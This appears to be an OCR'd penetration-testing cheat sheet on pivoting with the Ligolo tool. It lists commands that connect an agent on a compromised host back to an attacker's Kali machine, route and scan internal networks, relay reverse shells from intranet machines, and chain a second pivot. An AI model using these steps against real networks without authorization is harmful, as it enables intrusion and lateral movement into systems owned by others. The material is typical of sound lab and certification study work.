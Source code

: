 # Port Forwarding
*   Ligolo
    *   Setup
        *   Kali        → `ligstart()`
        *   Pivot     → `ligolo-agent -connect [KALI_IP]:11601 -ignore-cert`
        *   Kali        → `sudo ip route add [ROUTE] dev ligolo`
        *   Ligolo   → `session` → Select Number → `start`
    *   Local Forwarding
        *   Route    → `240.0.0.1/32`
        *   Access   → `240.0.0.1:[PORT]` (Universal IP - Change Session to access other pivot's local ports)
    *   Dynamic Forwarding
        *   Route → `[INTRANET_CIDR]`
            *   Generic    → `192.168.0.0/16`, `172.16.0.0/12`, `10.0.0.0/8`
            *   Linux        → `ip route`
            *   Windows → `route PRINT` → Check Router + Mask
        *   Ping Sweep / Service Scanning
            *   `fping -asgq        [INTRANET_CIDR]`
            *   `sudo nmap -PE -sCV [INTRANET_IP]`
        *   Shells / File Transfers
            *   Kali                             → `listener_add --addr 0.0.0.0:30000 --to [KALI_IP]:[KALI_PORT] --tcp` 
            *   Intranet Machine   → Request/Send Shell To → `[FIRST_PIVOT_INTRANET_IP]:30000`
        *   Double Pivoting
            *   Ligolo                 → Select Pivot Session + `listener_add --addr 0.0.0.0:11601 --to [KALI_IP]:11601 --tcp`
            *   Second Pivot   → `ligolo-agent -connect [FIRST_PIVOT_INTRANET_IP]:11601 -ignore-cert`
            *   Kali                     → `ligcreate() ligolo2` + `sudo ip route add [SECOND_INTRANET_CIDR] dev ligolo2`
            *   Ligolo                → `session` → Select Number → `start --tun ligolo2`